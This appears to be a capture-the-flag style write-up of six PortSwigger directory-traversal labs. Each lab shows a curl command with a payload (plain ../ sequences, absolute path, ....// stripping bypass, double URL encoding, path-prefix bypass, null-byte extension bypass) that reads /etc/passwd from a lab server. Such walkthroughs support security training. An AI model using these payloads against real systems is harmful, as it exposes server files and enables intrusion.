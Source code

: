 
## Directory Traversal Lab

### LAB #1: File path traversal, simple case

Lab URl: https://portswigger.net/web-security/file-path-traversal/lab-simple

Objective: view the content of `/etc/passwd`

This lab contains a shopping application that has different products. Each product has its image and they are getting that image from an image API using a parameter name `filename`. The full URL of the image API is like the following.

```
https://0a30000b0355a606c1d7941d00800012.web-security-academy.net/image?filename=65.jpg
```

This didn't enforce any protection against directory traversal so attackers can use directory traversal to view server internal files. Using the following command we can get the content of the `/etc/passwd` file.

```bash
curl https://0a30000b0355a606c1d7941d00800012.web-security-academy.net/image?filename=../../../../etc/passwd
```

As the API is used for giving an image file so the browser will not show the content in the browser they will show the following error.

```
The image "https://0a30000b0355a606c1d7941d00800012.web-security-academy.net/image?filename=../../../../etc/passwd" cannot be displayed because it contains errors.
```

So we must use tools like curl that will show us raw responses.


### LAB #2: File path traversal, traversal sequences blocked with absolute path bypass

Lab URL: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

Objective: view the content of `/etc/passwd`

This lab contains a shopping application that has different products. Each product has its image and they are getting that image from an image API using a parameter name `filename`. The full URL of the image API is like the following.

```
https://0a2100ff03287847c5707ebf004200f8.web-security-academy.net/image?filename=25.jpg
```

They enforce some protection that will strip any combination of `../` and they are striping that in the loop so we cannot use payload like this `....//....//` this will also block any URL encoding also doesn't work. But by using an absolute path they will give us the content of the `/etc/passwd` file.

```bash
curl https://0a2100ff03287847c5707ebf004200f8.web-security-academy.net/image?filename=/etc/passwd
```

### LAB #3: File path traversal, traversal sequences stripped non-recursively

Lab URL: https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively

Objective: view the content of `/etc/passwd`

This lab contains a shopping application that has different products. Each product has its image and they are getting that image from an image API using a parameter name `filename`. The full URL of the image API is like the following.

```
https://0a2100ff03287847c5707ebf004200f8.web-security-academy.net/image?filename=25.jpg
```

They enforce some protection that will strip any combination of `../` but they didn't do striping in loop or recursively so we can use payload like this `....//....//` and that will bypass the protection and give us the contents of `/etc/passwd` file.

```bash
curl https://0ac400c9034b1ecac1a9a98400c5000e.web-security-academy.net/image?filename=....//....//....//....//....//etc/passwd
```

### LAB #4: File path traversal, traversal sequences stripped with superfluous URL-decode

Lab URL: https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode

Objective: view the content of `/etc/passwd`

This lab contains a shopping application that has different products. Each product has its image and they are getting that image from an image API using a parameter name `filename`. The full URL of the image API is like the following.

```
https://0a68000304308ecac0dcf95800c800af.web-security-academy.net/image?filename=5.jpg
```

They enforce some protection against directory traversal attacks in which they block any sequences of `../` and we can also don't get the files using an absolute path. Using a double URL to encode the directory traversal payload we can get the context of the `/etc/passwd` file.

```bash
curl https://0a68000304308ecac0dcf95800c800af.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd
```

### LAB #5: File path traversal, validation of start of the path

Lab URL: https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path

Objective: view the content of `/etc/passwd`

This lab contains a shopping application that has different products. Each product has its image and they are getting that image from an image API using a parameter name `filename`. The full URL of the image API is like the following.

```
https://0a11006b04fb4ccfc0c6402100f8006c.web-security-academy.net/image?filename=/var/www/images/13.jpg
```

In the above URL, we can see the filename parameter start with the directory `/var/www/image` if we didn't pass that path in our URL they show us an error saying

```
Missing parameter 'filename'
```

They are validating if the URL has that path or not if not then throw an error. This validation can easily be bypassed using a payload like the following.

```
/var/www/images/../../../etc/passwd
```

we can get the contents of `/etc/passwd` using the following command.

```bash
curl https://0a11006b04fb4ccfc0c6402100f8006c.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

### LAB #6: File path traversal, validation of file extension with null byte bypass

Lab URL: https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

Objective: view the content of `/etc/passwd`

This lab contains a shopping application that has different products. Each product has its image and they are getting that image from an image API using a parameter name `filename`. The full URL of the image API is like the following.

```
https://0a1400e80330a27ec02ddb9b00b10089.web-security-academy.net/image?filename=30.jpg
```

They add some extension validation in it. If the file doesn't have an extension `.jpg` they will not show any result and throw an error.

```
No such file
```

Any payload other payload didn't work but we can bypass this validation using a Null byte in our payload like the following.

```
../../../../../etc/passwd%00.jpg
```

Using this payload we can get the content of `/etc/passwd` using the following command.

```bash
curl https://0a1400e80330a27ec02ddb9b00b10089.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg
```

---
